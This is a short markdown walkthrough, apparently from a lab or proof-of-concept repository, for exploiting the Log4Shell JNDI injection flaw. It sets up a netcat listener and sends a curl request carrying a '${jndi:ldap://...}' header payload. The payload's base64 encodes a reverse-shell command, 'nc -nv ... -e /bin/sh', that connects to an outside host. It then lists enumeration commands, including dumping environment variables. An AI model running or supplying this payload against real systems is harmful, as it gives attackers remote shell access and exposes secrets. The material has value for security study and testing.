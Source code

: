 Steps:
- Start a listener `screen -S nc`
```
nc -lvp 7777
```
- Detach the session
- Send the upgraded payload:
```
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'
```
NOTES:
- bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g= refers to the command `nc -nv 173.31.24.10 7777 -e /bin/sh`

- If you go back to the netcat session `screen -r nc`, you will see a new message stating that connection
![](img/nc.png)

- Now **perform some enumeration**:
	- `uname -a`
	- `whoami`
	- `env` (environment variables)




